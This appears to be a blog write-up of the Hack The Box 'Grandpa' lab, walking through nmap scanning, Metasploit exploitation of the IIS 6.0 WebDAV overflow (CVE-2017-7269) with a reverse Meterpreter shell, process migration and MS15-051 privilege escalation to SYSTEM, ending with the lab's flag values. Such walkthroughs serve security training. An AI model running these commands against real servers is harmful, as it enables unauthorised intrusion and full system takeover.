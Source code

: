 ```yaml
---
layout: post
title: HackTheBox Grandpa
date: 2017-04-12
tags: [HackTheBox, Windows]
---
```


# Machine Synopsis

Grandpa is one of the simpler machines on Hack The Box, however it covers the widely-exploited CVE-2017-7269. This vulnerability is trivial to exploit and granted immediate access to thousands of IIS servers around the globe when it became public knowledge. ([Source](https://www.hackthebox.com/machines/grandpa))

# Enumeration
```bash
┌──(root💀Shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.14
Nmap scan report for 10.10.10.14
Host is up (0.18s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Sun, 23 May 2021 07:09:19 GMT
|   WebDAV type: Unknown
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (90%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows 2000 SP4 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   179.39 ms 10.10.14.1
2   179.43 ms 10.10.10.14

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.73 seconds
```
Let’s check out their website!

![Website](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Grandpa/Website.png?raw=true)

Seems like there’s nothing much.. but luckily the `nmap` scan showed the version of the server, so let’s do some vulnerability check on it!

```bash
┌──(root💀Shiro)-[/home/shiro]
└─# searchsploit iis 6.0
...
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow                                           | windows/remote/41738.py
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass                                                            | windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1)                                                        | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)                                                        | windows/remote/8806.pl
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch)                                                    | windows/remote/8754.patch
...
```
Out of all the possible exploits, the `WebDAV` exploit seems to be the most relevant.

# Exploitation

Let’s spin up `Metasploit` and use the `webdav` exploit!

```bash
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RHOST 10.10.10.14
RHOST => 10.10.10.14
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set LHOST 10.10.14.4
LHOST => 10.10.14.4
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > check
[+] 10.10.10.14:80 - The target is vulnerable.
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > exploit

[*] Started reverse TCP handler on 10.10.14.4:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.4:4444 -> 10.10.10.14:1030) at 2021-05-23 15:19:05 +0800

meterpreter > sysinfo
Computer        : GRANPA
OS              : Windows .NET Server (5.2 Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows

meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 2156 created.
Channel 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>cd c:\Documents and Settings
C:\Documents and Settings>dir
04/12/2017  05:32 PM    <DIR>          .
04/12/2017  05:32 PM    <DIR>          ..
04/12/2017  05:12 PM    <DIR>          Administrator
04/12/2017  05:03 PM    <DIR>          All Users
04/12/2017  05:32 PM    <DIR>          Harry

C:\Documents and Settings>cd Harry
Access is denied.
```
# Privilege Escalation

It seems like we do not have enough rights to access `Harry`’s directory. We can try migrating to a NT Authority running process instead. 

```bash
C:\Documents and Settings>exit
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 212   1080  cidaemon.exe
...
 1816  612   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1916  396   dllhost.exe
 2220  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 2288  612   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
...

meterpreter > migrate 1816
[*] Migrating from 2796 to 1816...
[*] Migration completed successfully.

meterpreter > shell
Process 2492 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>whoami
nt authority\network service

C:\WINDOWS\system32>cd c:\Documents and Settings

C:\Documents and Settings>cd Harry
Access is denied.
```
It seems like we still do not have enough rights to access `Harry`’s directory. We can use Metasploit’s `local_exploit_suggester` to look for possible exploit vectors.

```bash
C:\Documents and Settings>exit
meterpreter > run post/multi/recon/local_exploit_suggester 
...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
There are a few exploits! Let’s use the `ms15_051_client_copy_image` exploit.

```bash
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use exploit/windows/local/ms15_051_client_copy_image 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms15_051_client_copy_image) > set LHOST 10.10.14.4
LHOST => 10.10.14.4
msf6 exploit(windows/local/ms15_051_client_copy_image) > set session 1
session => 1
msf6 exploit(windows/local/ms15_051_client_copy_image) > exploit
...
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 2 opened (10.10.14.4:4444 -> 10.10.10.14:1032) at 2021-05-23 15:33:10 +0800

meterpreter > shell
Process 2548 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\Documents and Settings\Harry\Desktop>type user.txt
bdff5ec67c3cff017f2bedc146a5d869

C:\Documents and Settings\Administrator\Desktop>type root.txt
9359e905a2c35f861f6a57cecf28bb7b
```
